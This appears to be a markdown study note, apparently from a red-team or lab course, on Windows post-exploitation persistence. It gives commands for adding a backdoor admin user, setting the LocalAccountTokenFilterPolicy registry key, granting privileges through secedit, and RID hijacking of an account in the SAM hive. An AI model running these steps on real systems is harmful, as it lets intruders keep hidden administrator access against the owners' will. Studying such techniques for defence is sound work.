

# Tampering With Unprivileged Accounts

Once we get the administrator's access, we need to achive persistence in machine so that  it is harder for the blue team to detect us.

## Assign Group Membership

```
C:\> net localgroup administrators newuser1 /add
```

Now we can use `newuser1`to access the machine as administrator. Due to `LocalAccountTokenFilterPolicy` feature of UAC, administrative privileges are stripped out of any local account when logging in remotely.

To regain the administration privilges for our user we have to disable `LocalAccountTokenFilterPolicy` by changing the following registry key to 1.

```
C:\> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

## Special Privileges and Security Descriptors

We can add a user to certain groups without modifying any group membership. \
For this, we will export current configuration to a temporary file.

```
secedit /export /cfg config.inf
```

Then we add the user to the desired groups.

<figure><figcaption></figcaption></figure>

Then we convert the .inf file to .sdb to load the configuration back to the system.

```
secedit /import /cfg config.inf /db config.sdb

secedit /configure /db config.sdb /cfg config.inf
```

## RID Hijacking

When a new user is created on a Windows system, they are assigned a unique identifier known as the Relative Identifier (RID). This numeric value helps the system recognize and differentiate users. During the login process, the LSASS (Local Security Authority Subsystem Service) retrieves the user's RID from the SAM (Security Account Manager) registry hive and uses it to generate an access token. By manipulating this registry value, it’s possible to trick the system into assigning an unprivileged user the access token of an Administrator—effectively granting elevated privileges.

On Windows systems, the built-in Administrator account is always assigned the RID 500, while standard user accounts typically receive RIDs starting from 1000.

To change the RID of target user first identify the current RID.

```
C:\> wmic useraccount get name,sid

Name                SID
Administrator       S-1-5-21-1966530601-3185510712-10604624-500
DefaultAccount      S-1-5-21-1966530601-3185510712-10604624-503
Guest               S-1-5-21-1966530601-3185510712-10604624-501
newuser1            S-1-5-21-1966530601-3185510712-10604624-1008
newuser2            S-1-5-21-1966530601-3185510712-10604624-1009
newuser3            S-1-5-21-1966530601-3185510712-10604624-1010
```

we want to change RID of `newuser3` from 1010 to 500.\
In registry Editor rid are stored in hex (1010 = 0x3F2) in little-endin notation (3F2 = F2 03)

<figure><figcaption></figcaption></figure>

Then, changing to RID 500 (0x01F4) in little-endian (F401):<br>

<figure><figcaption></figcaption></figure>

`newuser3`is now administrator
